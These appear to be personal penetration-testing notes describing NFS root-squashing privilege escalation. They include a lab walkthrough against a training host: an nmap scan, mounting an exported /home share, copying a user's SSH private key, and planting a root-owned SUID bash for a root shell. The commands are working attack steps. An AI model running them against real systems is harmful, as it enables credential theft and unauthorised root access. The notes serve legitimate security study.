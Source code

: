 If [[NetworkServices#root squashing]] isnt configured it can be exploited:

SUID (bit set) = specific linux authorization method to execute Files with every User as Owner/Group (like a superuser)

Download: [Standard Ubuntu Server 18.04 Bash Executable](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)

```
cd /downloads/
sudo chown root bash
cp /downloads/bash /nfs/home/bash
sudo chmod +s /nfs/home/bash
ssh -i id_rsa xxx@ip
./bash -p
```

- needs NFS + SSH access
- -p = persists the permission, so SUID can be executed as root, else permissions could be dropped
- +s = SUI Permission so we can execute files with other users as owner

Example:

``` 
nmap -A --top-ports 100 10.10.128.227

        Nmap scan report for ip-10-10-128-227.eu-west-1.compute.internal (10.10.128.227)
	Host is up (0.00090s latency).
	Not shown: 97 closed ports
	PORT     STATE SERVICE VERSION
	22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 73:92:8e:04:de:40:fb:9c:90:f9:cf:42:70:c8:45:a7 (RSA)
	|   256 6d:63:d6:b8:0a:67:fd:86:f1:22:30:2b:2d:27:1e:ff (ECDSA)
	|_  256 bd:08:97:79:63:0f:80:7c:7f:e8:50:dc:59:cf:39:5e (EdDSA)
	111/tcp  open  rpcbind 2-4 (RPC #100000)
	| rpcinfo: 
	|   program version   port/proto  service
	|   100000  2,3,4        111/tcp  rpcbind
	|   100000  2,3,4        111/udp  rpcbind
	|   100003  3           2049/udp  nfs
	|   100003  3,4         2049/tcp  nfs
	|   100005  1,2,3      35337/udp  mountd
	|   100005  1,2,3      56859/tcp  mountd
	|   100021  1,3,4      35347/udp  nlockmgr
	|   100021  1,3,4      39613/tcp  nlockmgr
	|   100227  3           2049/tcp  nfs_acl
	|_  100227  3           2049/udp  nfs_acl
	2049/tcp open  nfs_acl 3 (RPC #100227)
	MAC Address: 02:AD:DB:09:B1:93 (Unknown)
	No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
	TCP/IP fingerprint:
	OS:SCAN(V=7.60%E=4%D=7/19%OT=22%CT=7%CU=42941%PV=Y%DS=1%DC=D%G=Y%M=02ADDB%T
	OS:M=62D65C3C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A
	OS:)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5
	OS:=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W
	OS:6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S
	OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%R
	OS:D=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=
	OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U
	OS:1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DF
	OS:I=N%T=40%CD=S)

	Network Distance: 1 hop
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	TRACEROUTE
	HOP RTT     ADDRESS
	1   0.90 ms ip-10-10-128-227.eu-west-1.compute.internal (10.10.128.227)

	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 22.60 seconds

/usr/sbin/showmount -e 10.10.128.227
        
        Export list for 10.10.128.227:
        /home *
   
mkdir /tmp/mount
sudo mount -t nfs 10.10.128.227:home /tmp/mount/ -nolock
cd /tmp/mount
cd cappucino/.ssh
cp id_rsa /tmp/id_rsa
vi id_rsa.pub
cd /tmp
ssh -i id_rsa cappucino@10.10.128.227
exit()
download https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
sudo chown root bash
cd /tmp/mountcappucino/
cp /root/downloads/bash .
sudo chmod +s bash
ls -lisa
	-rwsr-sr-x 1 root   root   1113504 Jul 19 10:16 bash*
ssh -i id_rsa cappucino@10.10.128.227
./bash -p
cd /root/
```